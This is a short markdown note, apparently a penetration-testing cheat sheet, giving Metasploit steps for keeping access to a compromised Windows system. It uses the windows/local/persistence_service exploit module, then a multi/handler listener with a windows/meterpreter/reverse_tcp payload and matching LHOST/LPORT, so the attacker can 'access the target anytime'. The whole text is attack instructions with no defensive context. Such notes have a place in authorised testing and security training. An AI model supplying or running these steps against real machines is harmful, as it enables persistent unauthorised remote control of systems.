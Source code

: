 
__You require elevated privileges in order to establish persistence on a Windows system.__
- __`search persistence_service`__
  - __`use exploit/windows/local/persistence_service`__
  - __remember the `LPORT` because we use same port to login__
  - __when you got successfully got persistence service then you can access the target anytime__
  - __So when you load the msfconsole do this things__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - > __You should use the same payload that you used before__
  - __set the `LHOST` and `LPORT` that you used before__
